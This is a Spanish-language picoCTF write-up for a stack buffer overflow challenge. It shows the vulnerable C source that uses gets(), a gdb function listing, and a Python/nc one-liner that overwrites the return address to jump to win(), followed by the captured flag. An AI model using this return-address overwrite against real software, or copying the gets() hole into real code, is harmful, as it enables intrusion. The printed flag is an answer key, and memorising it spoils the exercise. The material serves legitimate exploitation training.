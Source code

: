 ## Objetivo
Control the return address Now we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/185/vuln). You can view source [here](https://artifacts.picoctf.net/c/185/vuln.c). And connect with it using `nc saturn.picoctf.net 52217`
## Solución

```bash
┌──(armando㉿kali)-[~/picoCTF/binaryExplotation/bufferoverflow1]
└─$ ls
vuln  vuln.c

┌──(armando㉿kali)-[~/picoCTF/binaryExplotation/bufferoverflow1]
└─$ nano vuln.c        
```
- Revisamos el código que nos dan.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
- Observamos que la función `win` nos genera la bandera pero en ningún momento del programa la manda a llamar por lo que tenemos que hacer un desborde en la memoria para poder llamar a la función, para ello vemos cual es el espacio en la memoria que tiene la función `win`
```bash
┌──(armando㉿kali)-[~/picoCTF/binaryExplotation/bufferoverflow1]
└─$ gdb vuln   
GNU gdb (Debian 15.1-1) 15.1
Copyright (C) 2024 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from vuln...
(No debugging symbols found in vuln)
(gdb) info functions 
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x08049040  printf@plt
0x08049050  gets@plt
0x08049060  fgets@plt
0x08049070  getegid@plt
0x08049080  puts@plt
0x08049090  exit@plt
0x080490a0  __libc_start_main@plt
0x080490b0  setvbuf@plt
0x080490c0  fopen@plt
0x080490d0  setresgid@plt
0x080490e0  _start
0x08049120  _dl_relocate_static_pie
0x08049130  __x86.get_pc_thunk.bx
0x08049140  deregister_tm_clones
0x08049180  register_tm_clones
0x080491c0  __do_global_dtors_aux
0x080491f0  frame_dummy
0x080491f6  win
0x08049281  vuln
0x080492c4  main
0x0804933e  get_return_address
0x08049350  __libc_csu_init
0x080493c0  __libc_csu_fini
0x080493c5  __x86.get_pc_thunk.bp
0x080493cc  _fini
(gdb) quit
```
- Notamos que a partir de los 48 caracteres empieza a desbordarse, entonces en los últimos 4 caracteres colocamos la dirección de memoria a la que quiero que se redirija y así obtener la bandera.
```bash
┌──(armando㉿kali)-[~/picoCTF/binaryExplotation/bufferoverflow1]
└─$ python3 -c "import sys;sys.stdout.buffer.write(b'A'*48)" | ./vuln  
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x41414141
zsh: done                python3 -c "import sys;sys.stdout.buffer.write(b'A'*48)" | 
zsh: segmentation fault  ./vuln

┌──(armando㉿kali)-[~/picoCTF/binaryExplotation/bufferoverflow1]
└─$ (python3 -c "import sys;sys.stdout.buffer.write(b'A'*44+b'\xf6\x91\x04\x08')";echo) | nc saturn.picoctf.net 52217
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_6462ca2d}                                                                                                                    
┌──(armando㉿kali)-[~/picoCTF/binaryExplotation/bufferoverflow1]
└─$ 
```

## Notas Adicionales
## Referencias